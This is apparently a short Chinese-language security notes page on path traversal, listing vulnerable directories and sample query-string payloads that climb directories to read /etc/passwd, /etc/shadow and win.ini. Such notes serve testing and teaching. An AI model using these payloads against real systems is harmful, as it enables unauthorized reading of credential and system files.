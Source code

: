 # ✔️ 路径遍历 - Path Traversal

## 漏洞点

* Web根目录
* 上传目录
* 临时目录
* 配置文件目录
* 日志文件目录
* 包含文件目录

## 有效利用

```url
// Linux
?filename=../../../etc/passwd
?filename=../../../etc/shadow

// Windows
?filename=..\..\..\windows\win.ini
```
